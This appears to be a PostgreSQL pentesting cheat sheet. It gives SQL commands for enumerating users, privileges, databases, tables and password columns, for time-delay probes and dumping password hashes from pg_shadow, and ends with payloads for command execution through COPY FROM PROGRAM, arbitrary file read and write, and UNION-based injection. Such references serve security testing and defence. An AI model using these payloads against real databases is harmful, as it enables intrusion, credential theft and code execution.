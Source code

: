 # PostgreSQL

## Database commands

### Comments

```
SELECT 1; –comment
SELECT /*comment*/1;
```

### Version

```
SELECT version();
```

### Users

```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user WHERE usesuper IS TRUE
SELECT usename FROM pg_user;
SELECT getpgusername();
SELECT usename FROM pg_user
CREATE USER <name> PASSWORD '<pass>';
CREATE USER <name> PASSWORD '<pass>′ CREATEUSER;
DROP USER <name>;
ALTER USER <name> CREATEUSER CREATEDB;
```

### Privileges

```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user;
```

### Database info

```
SELECT current_database();
SELECT datname FROM pg_database;
SELECT current_setting(‘<dir>’);
SELECT current_setting(‘<setting hba file>’); 
```

### List tables

```
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r',") AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid);
```

### List columns

```
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public');
```

### Filter table by column name

```
SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public') AND attname LIKE '%<password>%';
```

### Access nth row

```
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET ;
```

### String operations

```
SELECT substr('<str>', <start>, <end>); 
SELECT 6 & 2;
SELECT chr(65);
SELECT ascii('A');
SELECT CAST(1 as varchar);
SELECT CAST('1' as int);
SELECT ‘A’ || 'B’; 
SELECT CHR(65)||CHR(66);
```

### Conditional execution

```
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; -- returns A
```

### Time delay

```
SELECT pg_sleep(<seconds>); -- postgres 8.2+ only
CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' language 'C' STRICT; SELECT sleep(<seconds>);
```

### DNS and HTTP

```
SELECT * FROM dblink('host=<host> user=<usr>  dbname=<bd>', 'SELECT version()') RETURNS (result TEXT);
SELECT inet_server_addr();
SELECT inet_server_port();
```

## Passwords

```
SELECT usename, passwd FROM pg_shadow;
```

**Format:** MD5

## Vulnerabilities

### RCE

```
CREATE TABLE exec(output text);
COPY exec FROM program '<command>';
```

### Arbitrary file access

```
CREATE TABLE mydata(t text);
COPY mydata FROM '<path to file>'; 
```

#### SQLi

```
…' UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET <nth repeat for each row>;
```

### Arbitrary file write

```
CREATE TABLE mytable (mycol text);
INSERT INTO mytable(mycol) VALUES ('<string>');
COPY mytable (mycol) TO '<dest file>'; 
```




